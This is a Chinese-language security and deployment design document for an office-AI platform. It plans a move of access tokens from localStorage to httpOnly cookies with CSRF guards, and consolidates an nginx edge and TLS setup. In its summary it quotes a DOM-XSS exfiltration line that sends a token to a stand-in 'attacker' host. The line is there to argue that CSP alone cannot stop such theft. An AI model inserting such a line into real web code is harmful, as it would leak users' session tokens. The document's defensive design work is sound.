

# 安全与部署形态设计（P0-5 令牌链路 / P0-4 部署形态）

| 项 | 内容 |
| --- | --- |
| 文档 | `docs/design-2026-11-02-security-deploy.md` |
| 版本 | v1.2（2026-11-02）· 变更：v1.1 追加 §4 拍板结果/阻断项/已知残留；v1.2 追加 §3.4.1 K4-min 交接面，并同步 R4/R8 的两处修正（JWKS 走内网、环境变量 4→2） |
| 作者 | 高见远（架构师） |
| 配套文档 | **`docs/design-2026-11-02-keycloak-realm.md`**（R4/R5/R8 阻断项核查与 realm 配置，含实测证据）<br/>**`docs/remediation-ledger-2026-11-02.md`**（46 条审计项 + R1-R8 整改台账，轮 2 对账用） |
| 输入 | `docs/audit-2026-11-02-full-repo-audit.md`（P0-4 / P0-5）、`docs/audit-2026-11-02-quality-security.md`（S-01） |
| 基线 | `main @ e074372`。开工时工作区干净；定稿时工作区已有**并行成员**的改动（幂等性/订单抽屉等，非本文作者所为），本文未触碰任何代码 |
| 性质 | **设计决策文档**。本文不改任何代码；落地另立任务。所有"现状"均为本次实际读码/实跑所得，行号以 `e074372` 为准 |
| 一句话结论 | **P0-5 走 httpOnly Cookie（BFF 形态，会话端点由适配层承担），本期不做 CSP 路线；P0-4 自建 nginx 作为三套形态共用边缘，端口只留边缘一个出入口。** |

> **复核方式说明**（为便于审计复核）：本文所有"实测"结论均给出了可复跑的命令或代码位置。
> 关键项做了真实环境验证：`deploy.resources.limits` 是否在非 swarm 下落盘、省略 host IP 的端口映射是否绑全 0.0.0.0、
> 拟定的 `ssl_ciphers` 白名单在 nginx 1.28-alpine 下是否合法、两份 nginx 配置能否通过 `nginx -t`。

---

## 1. 结论摘要

### 1.1 P0-5 令牌链路（S-01）

**推荐路线 A（httpOnly + SameSite Cookie），本期不做 B，彻底否决 C。**

1. **CSP 从原理上封不住这条链**，所以"只做 CSP 收敛"的过渡方案不成立：CSP3 规范已移除 `navigate-to` 指令，任何 DOM XSS 都能用 `location.href = 'https://attacker/?t=' + token` 把令牌带走；而且当前 `img-src 'self' data: https:`（`apps/web/next.config.js:53`）本身就是一条 `` 外传通道。唯一能"让脚本读不到令牌"的手段是 httpOnly Cookie。路线 B 仍有价值，但它降的是**触发概率**，不是**后果**，因此不能作为 P0-5 的答案。
2. **改动面比评估报告预估的小得多**：后端取令牌只有一个入口（`apps/adapter/app/core/security.py:185-205` `extract_bearer_token`）；SSE 走的是 `fetch` + `ReadableStream`（`apps/web/src/lib/api-client.ts:600`）而不是 `EventSource`，Cookie 天然可用、**零改造**；产物下载用 HMAC 路径令牌（`apps/adapter/app/api/v1/artifact_files.py:43,59`），与 Bearer 无关、**完全不受影响**。
3. **会话端点放适配层而不是 Next 的 BFF**：`docker-compose.yml` 里 `web` 只挂 `officeai-frontend`、`keycloak` 只挂 `officeai-backend`，Next 服务端**到不了 Keycloak**；而 `adapter` 本来就同时挂两张网。把 `/sso/*` 放在适配层可做到**零网络拓扑改动**，且不把 backend 网暴露给最外层的 web 容器。
4. **端点放在 `/api/v1` 之外**，照抄产物下载的既有先例（`artifact_files.py:3-5` 明确写了"塞进 `/api/v1` 会让端点计数与基线门禁失去意义"），从而**不动 96 条端点的冻结基线**（`deploy/validate_openapi.py:705-709`，受 CODEOWNERS 保护）。
5. **私有化 HTTP 现场仍有净收益**：HTTP 下 Cookie 与 localStorage 一样可被链路嗅探，但本方案要挡的是 **XSS 读取**而不是窃听；XSS 免疫在 HTTP 现场同样成立。`Secure` 由配置决定，HTTP 现场置 `False` 并在启动时打告警。

### 1.2 P0-4 部署形态

**推荐"自建 nginx 为共用边缘 + TLS 终止用 compose override 二选一"，并把三套 compose 的端口出口收敛到边缘一个。**

1. **TLS 终止：两者都支持，默认自建 nginx**。私有化现场多数没有云 LB，`lite-tls.conf` 已是验证过能跑的资产（本次复跑 `nginx -t` 通过），提升为 `edge.conf` / `edge-tls.conf` 即可；SaaS 若用云 LB，则挂 HTTP 版边缘、由 LB 终止，文档声明为前置条件。**切换靠 compose override 文件，不靠魔改配置**。
2. **`lite.conf` 可直接复用到全量与 SaaS**：三套编排的服务名都叫 `adapter` / `web`，`lite.conf` 里的 `set $adapter_backend "adapter:8000"` / `$web_backend "web:3000"`（`deploy/nginx/lite.conf:47-48`）无需改动；`docker-compose.yml` 里 `adapter` 同时挂 `officeai-frontend`，边缘加入该网即可同时够到两个后端。这是 P0-4 便宜的根本原因。
3. **端口收口**：只保留边缘服务映射宿主端口；`adapter`/`web` 改 `expose:`。私有化现场需要直连时用 `docker-compose.direct.yml` override（默认不加载）作逃生开关——**不能靠"把端口变量置空"实现**，compose 的 `ports` 不支持空值跳过。
4. **资源限制的真实缺口与审计表述不同**（见 §3.1 勘误）：`docker-compose.yml` 已有 8 处、`lite.yml` 已有 10 处内存限制，**只有 `saas.yml` 是 0 处**；真正的缺口是 `saas.yml` 全量 16 个、`docker-compose.yml` 缺 11 个（含 `web`）、以及**三套都没有任何 CPU 限制**。取值依据用 `docs/lite-container-baseline.md` 的实测口径，无实测项的按 3× 估。
5. **k8s 只做最小三件套且按单副本**（V1.0 是单副本部署，`deploy/k8s/README.md:6-7` 里"HPA 2-10"的旧口径在 V1.0 不成立），配置单一真源靠"`.env` 为唯一键集合 + k8s Secret 由 env 文件生成 + 机械断言"，不手写密钥值。

### 1.3 能力边界（V1.0 定稿，可直接对外引用）

> **V1.0 仅支持 Keycloak 形态的身份提供方（含客户自建 Keycloak）。**
> **Auth0 / Okta / Azure AD / 其他非 Keycloak IdP 不在 V1.0 范围内**，计划 V1.1 提供。

这是**范围声明**而非能力缺口：V1.0 的身份链路在四处绑定 Keycloak 形态（`keycloak_base_url`/`keycloak_realm`、自省端点 `/realms/{realm}/.../introspect`、依赖 `realm_access`/`attributes` 的用户资料与角色映射），换 IdP 要改整条链路。

**因此令牌校验（R8）不实现"非 Keycloak IdP 分流"**，并明确**不做按 issuer 字符串形态的嗅探**——那会让"外部 IdP 可用"变成一个只在登录那一刻成立的假象（自省仍 404）。理由与论证纠错见配套文档 `docs/design-2026-11-02-keycloak-realm.md` §0 与 §2.3。

---

## 2. P0-5：令牌链路纵深（S-01）

### 2.1 现状复核

#### 2.1.1 审计三处断定 —— 逐条核对结论：**三处全部成立，行号未漂移**

| # | 审计断言 | 实际代码 | 判定 |
| --- | --- | --- | --- |
| ① | 访问令牌存 `localStorage`，`session-store.ts:72` | `apps/web/src/lib/session-store.ts:69-78` `getStorage()`，第 72 行 `kind === 'local' ? window.localStorage : window.sessionStorage`；`saveSession()` `:175-186`、`loadSession()` `:195-217` 均走 `'local'`；键 `moy.session.v1`（`:34`）；`:18-23` 自认"任何同源 XSS 都能直接取走访问令牌" | **成立** |
| ② | CSP `script-src 'self' 'unsafe-inline'`，`next.config.js:51` | `apps/web/next.config.js:51` 原文 `"script-src 'self' 'unsafe-inline'"`；`:36-40` 注释说明为 RSC 内联 `self.__next_f.push` 所需 | **成立** |
| ③ | CSP `connect-src 'self' http: https:`，`next.config.js:55` | `apps/web/next.config.js:55` 原文 `"connect-src 'self' http: https:"`；`:43-44` 注释说这是为"前端与适配层不同源且只有 HTTP"的私有化现场开口 | **成立** |

#### 2.1.2 补查项（委托要求）—— 四项全部有明确结论

**(a) 前端还有哪些地方读令牌？** 生产代码 5 处，测试文件另计：

| 位置 | 作用 | Cookie 化后处置 |
| --- | --- | --- |
| `src/lib/session-store.ts:175,195,222` | 唯一的存储读写口（`save/load/clearSession`） | 会话三函数退役（`pending` 一并迁走） |
| `src/lib/api-client.ts:234-245` | 模块级变量 `accessToken` + `set/getAccessToken` | 删除，改 `credentials:'include'` |
| `src/lib/api-client.ts:280-282` | 发请求时注入 `Authorization: Bearer` | 删除 |
| `src/lib/api-client.ts:453-455` | 上传路径再次注入同一头（第二处，易漏） | 删除 |
| `src/lib/api-client.ts:600-606` | SSE `openStream` 复用 `buildHeaders` | 加 `credentials:'include'` |
| `src/app/(auth)/login/page.tsx:18` | `savePending` + `saveSession` | 改调 `/sso/start` |
| `src/app/(auth)/auth/callback/callback-flow.tsx:12` | `clearPending` / `loadPending` / `saveSession` | 改调 `/sso/complete` |
| `src/components/layout/session-gate.tsx:43,162-178,216,257` | `loadSession` / `isSessionExpired` / `clearSession`（登出） | 改调 `GET/DELETE /sso/session` |

> 注：`api-client.ts` 有 **两处**注入鉴权头（`:280` 与 `:453`），只改第一处会漏掉上传链路。这是本方案最容易踩的回归点。
>
> ⚠️ **行号漂移提醒**：本文所有行号钉在 `e074372`。本文定稿时工作区已有并行改动（幂等性相关）落在 `apps/web/src/lib/api-client.ts` 上，
> 该文件中两处 `Authorization` 注入已从 `:280` / `:453` 漂到 `:391` / `:564`，`openStream` 从 `:590` 漂到 `:703`。
> 因此**落地时请按内容锚点定位，不要按行号**：`let accessToken` / `headers.set('Authorization', ...)`（两处）/ `function buildHeaders` / `function openStream` / `NEXT_PUBLIC_ADAPTER_BASE_URL`。
> 删除策略建议从"逐处删注入"改为"删掉 `accessToken` 变量本身"，让编译器把所有引用点一次性暴露（含 `setAccessToken`/`getAccessToken` 的调用方）。

**(b) 后端是否已具备 Cookie 会话能力？** **完全没有。** 全仓 `Set-Cookie` / `setCookie` / `cookie-parser` **0 命中**；`getRequestSettings` 之外无任何 cookie 解析；`CORSMiddleware`（`apps/adapter/app/main.py:486-498`）虽 `allow_credentials=True`（`:494`），但 `allow_origins` 在非 development 下为 `[]`（`:491-493`）——这条对我们**有利**：跨源携带凭据的请求被浏览器拒绝，等于自带一层 CORS 兜底。

**(c) 是否有 CSRF 防护基础设施？** **没有。** 唯一 `csrf` 命中在 `apps/adapter/qa_probe/bootstrap_dify.py:66-70`，那是**去调 Dify 控制台**的探针脚本，与平台自身无关。所以 CSRF 是**新建**，不是复用。

**(d) 注入点现状** —— 我独立复核了审计的前提：`dangerouslySetInnerHTML` / `innerHTML` / `<iframe` / `srcdoc` / `eval(` / `new Function` 在 `apps/web/src` 下 **27 条命中全部是 `*.test.tsx` 里的 `document.body.innerHTML = ''`（测试清理）**，生产代码 **0 处**。审计"未发现注入点"的判断成立 → 本项定性仍是"**一旦有注入点即全线失守**"，不是"已被打穿"。

#### 2.1.3 复核中发现的、审计未提但在本方案里必须先解决的问题

| # | 问题 | 证据 | 对本方案的影响 |
| --- | --- | --- | --- |
| N-1 | **会话时长无主**：仓库内**没有任何 Keycloak realm 配置**（`find` 无 `*realm*` 文件、`grep accessTokenLifespan` 全仓 0 命中；`OA_KEYCLOAK_REALM=officeai` 只是变量，`.env.example:140`）。而前端严格按 `expires_at` 判过期并在过期时**直接登出**（`session-gate.tsx:168-175`），且**无刷新流程**（`session-store.ts:22-23` 自认 `refresh_token` "只存不用"）。 | 实际会话时长 = 现场 realm 的 access token 有效期；Keycloak 默认 **300 s** | 迁到 Cookie 后这个"5 分钟掉登录"的悬崖**不会自动消失**。必须在本方案里给处置（§2.4.6 分 A1/A2 两增量），否则上线后会被当成新缺陷 |
| N-2 | **两份 HSTS 取值不一致**：Next 发 `max-age=31536000`（`next.config.js:24-27`），nginx 发 `max-age=15552000`（`deploy/nginx/lite-tls.conf:60`）。且 Next 在**纯 HTTP 现场也发 HSTS**（浏览器不采纳，但会造成"配了却没效"的排障困惑）。 | 上述两处 | 收敛为**边缘单点下发**，Next 不再发 HSTS（见 §3.3.1） |
| N-3 | **`web` 容器到不了 Keycloak**：`docker-compose.yml` 中 `web` 网络 = `[officeai-frontend]`，`keycloak` = `[officeai-backend]` | 实测 YAML 解析 | 直接决定"BFF 放 Next 还是放适配层"的选型（选适配层） |
| N-4 | **产物下载限流键会塌缩**：`artifact_files.py:65-73` 用 `request.client.host` 作"客户端 IP"；加边缘反代后全部变成边缘容器 IP | 同上 | 见 §3.3.3，需新增"可信代理"概念，否则"租户+IP 60 次/分"变成"租户全站 60 次/分" |

### 2.2 三路线对比

| 维度 | 路线 A：httpOnly Cookie（BFF） | 路线 B：CSP nonce + `connect-src` 收敛 | 路线 C：内存令牌 + refresh 换发 |
| --- | --- | --- | --- |
| **能否让脚本读不到令牌** | **能**（httpOnly 对 JS 不可见） | 不能 | 刷新前能；刷新页面即丢 |
| **能否阻断外传** | 不需要阻断——令牌读不到 | **不能完全阻断**：CSP3 无 `navigate-to`，`location.href` 外传不可拦；`img-src https:`（`:53`）本身是通道 | 同 B |
| **新增攻击面** | CSRF（需新建防护）、Cookie 固定 | 无（但 `strict-dynamic` 会放宽脚本来源约束） | 无 |
| **性能影响** | 基本无（Cookie 头几十字节） | **有**：nonce 方案要求路由转动态渲染，静态预渲染失效 | 无 |
| **落地成本（人日，含测试）** | **4-6**（后端 3 端点 + 前端 6 文件 + 5 个测试文件同步） | 2-3（1 个 proxy/middleware + CSP 生成 + 强制动态渲染 + 构建产物断言） | 2-3，但**UX 不可接受** |
| **残留风险** | 私有化 HTTP 下仍可被链路嗅探（但 XSS 免疫）；CSRF 若配错则退化 | 全部残留：令牌仍可被读、可被 `location.href` 带走 | refresh 放 localStorage = 链未断；放 Cookie = 已是 A 的残缺版 |
| **是否闭环 P0-5 判据**（CSP 无 `unsafe-inline` 且 `connect-src` 无裸 `http:`；令牌不在 localStorage） | **满足后半句；前半句需同批做 B 才能满足** | 只满足前半句 | 前半句都不满足 |

**工期估算口径**：按"1 名工程师、现有测试全绿为前提的增量改造"估，不含 e2e 环境搭建。

### 2.3 推荐与理由

**推荐：路线 A 为主体，并在同一发布窗口内附带完成路线 B 的 `connect-src` 收敛（不做 nonce）。**

理由按重要性排序：

1. **只有 A 直接降低后果严重度。** P0-5 的定义是"一旦有注入点即全线失守"。B 把"内联脚本能否执行"这一环加难，但攻击者不需要执行内联脚本也能用 ``/`location.href` 把 `localStorage` 里的令牌带走——**B 之后"失守"依然成立**，只是需要多一步。A 之后"读走令牌"这件事在技术上不成立。判据里的"CSP 不含 `unsafe-inline`"是**加固指标**，不是**止血指标**，二者不能互相替代。
2. **A 的成本被高估了。** 三处"本该很贵"的地方在现有代码里恰好都很便宜：后端取令牌单点（`security.py:185-205`）、SSE 不是 `EventSource` 而是 `fetch`（`api-client.ts:600`）、产物下载与 Bearer 解耦（`artifact_files.py:59`）。真正的成本集中在前端会话状态的 6 个文件改造与 5 个测试文件的 mock 更新。
3. **A 顺带解决了 N-1（会话时长无主）。** 一旦 refresh token 落在 httpOnly Cookie 里且有 `/sso/refresh`，"5 分钟掉登录"才有地方修；在 localStorage 架构下要把 refresh 做安全，绕不开"refresh 也存 JS 可读处"的死结。
4. **B 的 `connect-src` 部分几乎零成本**，且能立刻消掉"`connect-src 'self' http: https:` 等于不限制出站"这条判据，所以并入同批。**nonce 部分不在本期做**：它要求 `export const dynamic = 'force-dynamic'`（或重构预渲染策略），把当前静态预渲染的路由全部转成每请求渲染，属于**性能形态变更**，不该和"安全止血"绑在一个窗口里冒险。留 V1.1。

**为什么否决 C**：刷新页面即掉登录，对非技术终端用户是不可接受的缺陷；而"把 refresh 存 httpOnly Cookie"这一步一旦做了，架构就已经是 A 了，C 没有独立存在的位置。

### 2.4 详细实施设计（路线 A）

#### 2.4.1 目标架构（一次完整登录 + 一次业务请求）



要点：**令牌从不经过 JavaScript**。verifier 与 token 都由适配层经手，浏览器只持有两个 httpOnly Cookie。

#### 2.4.2 为什么放在适配层、为什么放在 `/api/v1` 之外

- **放适配层**：`docker-compose.yml` 中 `web` 仅挂 `officeai-frontend`、`keycloak` 仅挂 `officeai-backend`（§2.1.3 N-3）。若把 BFF 放 Next，须让 `web` 加入 backend 网——等于把最外层容器放进能直连 PG/Milvus 的网段，**为了登录把攻击面扩大了**，方向错误。适配层本来就在两张网上，且已经是唯一允许接触底座的组件。
- **放 `/api/v1` 之外**：`deploy/validate_openapi.py:705-709` 挂着 5 份冻结基线（30+38+16+10+2 = 96 条），`:57-58` 明确"禁止用本脚本改基线文件"、`baseline-core-30.json` 受 CODEOWNERS 保护。产物下载已经为此立了先例并在代码里写明理由（`artifact_files.py:3-5`）。本方案照抄：会话端点挂 `/sso/`，**不进 `/api/v1`，96 条基线一条不动**。
- 代价：nginx 需要新增 `/sso/` 的 location（否则落到 `location /` 交给 Next → 生产恒定 404，与 2026-11-02 审计 S-03 的产物下载是**同款坑**）。这条与 P0-4 边缘模板**同批**改。

#### 2.4.3 文件清单

**新增（适配层）**

| 文件 | 职责 |
| --- | --- |
| `apps/adapter/app/api/sso_routes.py` | `/sso/start` `/sso/complete` `/sso/session`(GET/DELETE) `/sso/refresh`(A2)。`APIRouter(prefix="/sso")`，与 `artifact_files.py` 同样绕过 `/api/v1` |
| `apps/adapter/app/core/session_cookie.py` | Cookie 名/属性决策（`Secure` 三态、`SameSite`、`Path`、`Max-Age`）、读、写、清；`oa_oidc_pending` 的多条 state 合并（最多 3 条，见 §2.4.5） |
| `apps/adapter/app/core/oidc_server.py` | 服务端 PKCE：生成 `state`/`verifier`/`challenge`、拼 `authorize_url`、调 token endpoint（`authorization_code` 与 `refresh_token` 两种 grant） |
| `apps/adapter/app/core/csrf.py` | `assert_same_site(request)`：`Sec-Fetch-Site` 主判定 + `Origin` 兜底 |
| `apps/adapter/tests/unit/test_session_cookie.py` | Cookie 属性矩阵（HTTP/HTTPS × Secure）、多 state 合并上限、超长拒绝 |
| `apps/adapter/tests/unit/test_sso_routes.py` | 四个端点的成功/失败分支；断言**响应体不含令牌** |
| `apps/adapter/tests/security/test_csrf_guard.py` | `cross-site` / `same-site` / `none` / 缺失 `Sec-Fetch-Site` 四种输入的放行与拒绝 |

**修改（适配层）**

| 文件 | 改动点 |
| --- | --- |
| `apps/adapter/app/core/security.py:185-205` | `extract_bearer_token()` 改为 `extract_credential()`：`Authorization` 优先（双轨兼容，见 §2.4.7），无则读 `oa_session`；**仅在走 Cookie 轨时**调 `csrf.assert_same_site()`。Bearer 轨不做 CSRF 判定（无 Cookie 即无 CSRF） |
| `apps/adapter/app/core/config.py` | 新增 **2 个字段**：`public_base_url: str = ""`、`auth_cookie_enabled: bool = True`（核对确认当前均不存在）。`auth_cookie_name` 为代码常量不开放配置；`Secure` 由 `OA_PUBLIC_BASE_URL` 的 scheme 派生（仍满足"只由配置决定、不读请求头"）；`trusted_proxy_cidrs: str = ""`（服务 P0-4 的 N-4）。**复用既有** `keycloak_base_url` / `keycloak_realm` / `keycloak_client_id`（`:146-148`），不再新增 `oidc_token_endpoint` / `oidc_client_id`。⚠ **这 2 个字段必须与编排注入同一提交**，否则 `validate_config_names.py:19` 的 R1 判据会红（详见 `docs/design-2026-11-02-keycloak-realm.md` §2.4 / §2.5） |
| `apps/adapter/app/main.py:500-501` | 注册 `sso_routes`（在 `include_all_routers` 之后单独 `include_router`） |
| `apps/adapter/app/api/v1/artifact_files.py:65` | `request.client.host` → `client_ip(request)`（可信代理感知），供 P0-4 共用 |

**新增（前端）**

| 文件 | 职责 |
| --- | --- |
| `apps/web/src/lib/session-client.ts` | `startLogin()` / `completeLogin(code,state)` / `fetchSession()` / `logout()`；统一 `credentials:'include'`、`cache:'no-store'` |
| `apps/web/src/lib/session-client.test.ts` | 四函数的成功/401/网络错误分支 |

**修改（前端）**

| 文件 | 改动点 |
| --- | --- |
| `apps/web/src/lib/session-store.ts` | 会话三函数（`saveSession`/`loadSession`/`clearSession`/`isSessionExpired`）**整体删除**；`pending` 三函数随登录流程迁到后端后一并删除；保留 `LEGACY_SESSION_STORAGE_KEY` 的**一次性清理**逻辑（登出时顺手删掉历史键，避免旧令牌长期滞留客户端） |
| `apps/web/src/lib/api-client.ts:179-181` | `ADAPTER_BASE_URL` 缺省值由 `'http://127.0.0.1:8000'` 改为 `''`（同源相对路径）。**这是必须的**：边缘化后浏览器不应再直连 8000 |
| `apps/web/src/lib/api-client.ts:234-245,280-282,453-455` | 删除 `accessToken` 变量与两处 `Authorization` 注入；所有 `fetch` 调用补 `credentials:'include'` |
| `apps/web/src/lib/api-client.ts:600-606` | SSE `openStream` 的 `fetch` 补 `credentials:'include'`（**只此一处**，`EventSource` 不存在，无需改造结构） |
| `apps/web/src/lib/oidc.ts` | PKCE 生成（`createPendingAuthorization` 等）与浏览器侧 `exchangeCode`（`:393-449`）退役；保留 `parseCallbackQuery` 供回调页取 `code/state` |
| `apps/web/src/app/(auth)/login/page.tsx:18` | `savePending`+跳转 → `await startLogin()` 后 `location.assign(authorize_url)` |
| `apps/web/src/app/(auth)/auth/callback/callback-flow.tsx:12` | `loadPending`+`completeAuthorization` → `await completeLogin(code,state)`；失败分支保留"不兑换即不写会话"的既有顺序纪律 |
| `apps/web/src/components/layout/session-gate.tsx:43,160-178,216,257` | 挂载时 `fetchSession()`（替代 `loadSession()`）；`expired`/`anonymous` 两态与 401 广播逻辑**保持不动**（`:198-236` 的收敛路径是好设计，不要改）；`logout()` 改为 `await logout()` + 清查询缓存 |

**测试同步（必须同批，否则红灯）**：`src/lib/session-store.test.ts`、`src/lib/oidc.test.ts`、`src/lib/session-gate.test.tsx`、`src/app/(auth)/auth-pages.test.tsx`、`src/lib/api-client-batch3.test.ts`（`setAccessToken` 往返用例）、`api-client-batch9.test.ts`（`session-store` 存储降级用例）、`api-client-batch10.test.ts`（`Authorization` 头断言）。

**部署**

| 文件 | 改动点 |
| --- | --- |
| `deploy/nginx/edge.conf` / `edge-tls.conf` | 新增 `location ^~ /sso/` → `proxy_pass http://$adapter_backend;`，**安全头就地重复**（`add_header` 不继承，见 `lite.conf:38-40`） |
| `deploy/docker-compose*.yml` | `web` 构建参数 `NEXT_PUBLIC_ADAPTER_BASE_URL` 置空（三套都改；`docker-compose.yml:627` 目前默认 `http://localhost:8000`，`.env.example:324` 同值） |
| `deploy/.env.example` / `.env.lite.example` | 新增 **2 个键**：`OA_PUBLIC_BASE_URL`、`OA_AUTH_COOKIE_ENABLED`；并把 `OA_WEB_OIDC_ISSUER` / `OA_JWT_ISSUER` 从空值改为由 `OA_PUBLIC_BASE_URL` 派生。**两者都不是密钥类，不需要 `# 生成：...` 注释**（详见 `docs/design-2026-11-02-keycloak-realm.md` §2.4 —— 原计划的 4 个键已收敛为 2 个） |

**门禁（防止回退）**

在 `deploy/validate_deploy.py` 新增两条断言（该脚本已存在、已接线 CI：`.github/workflows/ci-adapter.yml:764`，且带 `--self-test` 自检 `:766`）：
1. `apps/web/src` 下生产代码不得出现 `localStorage`（排除 `*.test.*`）——这是"令牌不许回到 JS 可读处"的机械防线；
2. `deploy/nginx/edge*.conf` 必须包含 `location ^~ /sso/`——防止边缘配置被抄漏。

#### 2.4.4 前后端契约变化

| 端点 | 方法 | 请求 | 响应 | Cookie |
| --- | --- | --- | --- | --- |
| `/sso/start` | POST | `{}` | `{code:0, data:{authorize_url}}` | 设 `oa_oidc_pending` |
| `/sso/complete` | POST | `{code, state}` | `{code:0, data:{ok:true}}`；失败 `{code:20002}` | 设 `oa_session`（+`oa_refresh`）；清 `oa_oidc_pending` |
| `/sso/session` | GET | — | `{code:0, data:{authenticated, expires_at}}` | 无 |
| `/sso/session` | DELETE | — | `{code:0, data:{ok:true}}` | 清 `oa_session`/`oa_refresh` |
| `/sso/refresh`（A2） | POST | — | `{code:0, data:{ok:true}}` | 换发 `oa_session`，`oa_refresh` 轮换 |

**统一信封**：`{code, data, message}`（与既有 `unwrap()` 口径一致，`api-client.ts:322-341`）。**哨兵断言**：`/sso/*` 的任何响应体不得包含 `access_token` / `refresh_token` 字段——这是本方案的核心不变式，写进 `test_sso_routes.py`。

**不再变化的契约**：96 条 `/api/v1/*` 端点签名、产物下载 `/files/artifacts/{token}`、`{code,data,message}` 信封。

#### 2.4.5 CSRF 设计（决策：`SameSite=Lax` + `Sec-Fetch-Site`，不用双提交 Cookie）

选 `Sec-Fetch-Site` 而不是双提交 Cookie，理由：双提交需要额外发一个非 httpOnly 的 CSRF cookie 并让前端读出塞进头，等于**又开了一个 JS 可读的凭据**，且要改每一个请求的构造点；而 `Sec-Fetch-Site` 由浏览器强制写入、JS **无法伪造**，判定成本是后端一行。三层叠加：

| 层 | 机制 | 挡住什么 |
| --- | --- | --- |
| L1 | `SameSite=Lax`（`oa_session`） | 跨站 POST/PUT/DELETE 一律不带 Cookie。Lax 之所以不选 Strict：Keycloak 回跳是**跨站顶层 GET**，Strict 会导致回跳后第一跳"看起来未登录" |
| L2 | `assert_same_site()`：`Sec-Fetch-Site ∈ {same-origin, none}` 放行，`cross-site`/`same-site` 拒绝（403） | 防 L1 被老浏览器忽略（老 Safari）时长尾风险；`none` 放行是为了地址栏直接输入/书签（无导航上下文） |
| L3 | 生产 CORS `allow_origins=[]`（`main.py:491-493`） | 跨源响应读取与预检；`allow_credentials=True` 在空白名单下不会放行任何跨源来源 |

**兜底**：`Sec-Fetch-Site` 缺失时（极老浏览器）回落到 `Origin` 头与配置的站点源比对；`Origin` 也缺失则**拒绝**（fail-closed），与项目既有 fail-closed 纪律一致（`security.py:242-249` 的延迟判权白名单就是同一思路）。

**明确不做**：`/files/artifacts/{token}` 不做 CSRF 判定——它用 HMAC 路径令牌、不读 Cookie，加判定反而会破坏"复制到聊天窗口直接下载"的既有能力。

#### 2.4.6 `Secure` 与私有化 HTTP 现场（决策：允许 `Secure=False`，但必须显式且告警）

- **`Secure` 由 `OA_PUBLIC_BASE_URL` 的 scheme 派生**（`https://` → 设；`http://` → 不设），**不提供独立开关**。
  这样既满足"只由配置决定"，又少一个可配错、可产生矛盾状态的项（早期草案的 `OA_AUTH_COOKIE_SECURE` 三态已删除，详见 `docs/design-2026-11-02-keycloak-realm.md` §2.4）。
  - **判定不读 `X-Forwarded-Proto`**。这是刻意的：若信任转发头，攻击者伪造 `X-Forwarded-Proto: http` 就能让服务端下发无 `Secure` 的 Cookie（或反之造成矛盾状态）。`Secure` 只由部署配置决定，绝不来自请求。
- **不用 `__Host-` 前缀**：`__Host-` 强制要求 `Secure`，HTTP 现场无法满足，会导致 Cookie 被浏览器直接丢弃、登录静默失败。代价是失去前缀带来的"Domain 锁定"保护，用固定 `Path=/` + 不发 `Domain` 属性补偿。
- 启动告警：`OA_ENV=production` 且 `OA_PUBLIC_BASE_URL` 为 `http://` 时，在启动日志打一条 `cookie_secure_disabled` 警告（项目已有启动校验/告警惯例，见 `config.py:473-474` 附近的注释口径）。**不阻止启动**——私有化 HTTP 是合法形态，硬拒会把客户挡在门外。

**真实取舍要写进交付说明**：HTTP 现场下 Cookie 可被同网段嗅探，安全性不比 localStorage 好；但**XSS 免疫**在两种传输下都成立，所以升级不是白做。要彻底解决需上 TLS（P0-4 的自建边缘 + 客户证书）。

#### 2.4.7 已登录用户的数据迁移（决策：一次性硬登出）

V1.0 **尚未对外发布**（审计总判定"不具备可发布条件"），因此不做令牌迁就：

- 部署后首次加载，`session-gate` 调 `GET /sso/session` 得到 `authenticated:false` → 走既有 `anonymous` 分支跳登录；
- 同时在 `clearSession()` 保留的清理逻辑里删掉 `moy.session.v1` 与历史键 `officeai_access_token`（`session-store.ts:47`），避免旧令牌长期残留在客户端；
- **不提供**"把 localStorage 令牌 POST 给后端换 Cookie"的迁移端点。理由：那会在发布后继续保留一个"令牌可被 JS 读出并上交"的窗口，正好抵消本方案的目的。

若已有客户实例在跑（需主理人确认，见 §4），代价是**一次性重新登录**，可接受。

#### 2.4.8 灰度与双轨（决策：适配层保留 Bearer 轨至 V1.1）

这是**回滚能力的前提**，不是可选项：

| 阶段 | 适配层行为 | 前端行为 |
| --- | --- | --- |
| ① 先发适配层 | Cookie 与 Bearer **同时接受**（`OA_AUTH_COOKIE_ENABLED=true`），新增 `/sso/*` 可用 | 旧版（localStorage + Bearer）**完全不受影响** |
| ② 再发前端 | 同上 | 只用 Cookie |
| ③ V1.1 收尾 | 移除 Bearer 轨（届时第三方/集成若需要，另立 API Token 方案） | — |

